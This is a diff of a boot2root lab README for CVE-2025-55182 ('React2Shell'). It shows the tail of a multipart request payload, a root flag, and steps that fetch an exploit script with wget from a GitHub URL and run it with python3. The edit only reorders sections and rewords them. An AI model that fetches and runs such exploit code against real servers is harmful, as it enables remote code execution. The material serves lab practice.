

Before and after one commit to Tomba-Hopkins/my-boot2root, a Markdown page: CVE-2025-55182/readme.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/CVE-2025-55182/readme.md
+++ b/CVE-2025-55182/readme.md
@@ -434,7 +434,7 @@ Content-Disposition: form-data; name="1"
 ------WebKitFormBoundaryx8jO2oVc6SWP3Sad
 Content-Disposition: form-data; name="2"
 []
-------WebKitFormBoundaryx8jO2oVc6SWP3Sad-
+------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
 ```
 
 
@@ -443,17 +443,16 @@ Content-Disposition: form-data; name="2"
 - root.txt: FLAG{ea76476154a0a2abbe9998c79bb77e6e}
 
 
-## Walkthrough - video
-- https://youtu.be/CuE1X4f4STk
+## Exploit
 
-
-## Exploit for CVE-2025-55182 - React2Shell
-
-- wget the file :
+- wget the exploit file :
 ```bash
 wget https://raw.githubusercontent.com/zams-putra/my-boot2root/refs/heads/main/CVE-2025-55182/exploit/react2shell.py
 ```
-- use the exploit :
+- run the script file :
 ```bash
 python3 react2shell.py
 ```
+
+## Walkthrough - video
+- https://youtu.be/CuE1X4f4STk
````
